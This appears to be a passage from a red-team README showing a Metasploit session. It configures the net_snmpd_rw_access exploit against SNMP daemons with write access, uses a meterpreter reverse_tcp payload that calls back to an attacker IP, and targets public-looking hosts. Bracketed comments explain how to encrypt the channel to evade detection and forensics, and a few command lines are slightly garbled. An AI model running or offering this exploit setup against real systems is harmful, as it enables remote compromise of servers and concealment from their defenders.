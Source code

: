 2. **metasploit**

```bash
msf6>use scanner/snmp/snmp_set
msf6 exploit(linux/snmp/net_snmpd_rw_access) > show options 

Module options (exploit/linux/snmp/net_snmpd_rw_access):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CHUNKSIZE  200              yes       Maximum bytes of payload to write at once
   COMMUNITY  public           yes       SNMP Community String
   FILEPATH   /tmp             yes       file path to write to
   RETRIES    1                yes       SNMP Retries
   RHOSTS     91.216.192.182   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      161              yes       The target port (TCP)
   SHELL      /bin/bash        yes       Shell to call with -c argument
   SRVHOST                     yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.4      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x86
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SRVHOST [allow one ip (attacker ip) To Connect To Keep calm,clean and safe (Redteaming)]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set SSL [Ecnrypt Your Connection To Evade some Network Attack Detaction methods & Forensics]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set LHOST  192.168.1.4 [attacker IP will developed in shellcode]
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set COMMUNITY  private          
msf6 exploit(linux/snmp/net_snmpd_rw_access) >set  RHOSTS     191.26.12.102
msf6 exploit(linux/snmp/net_snmpd_rw_access) > VERSION    1/2
msf6 exploit(linux/snmp/net_snmpd_rw_access) >run
```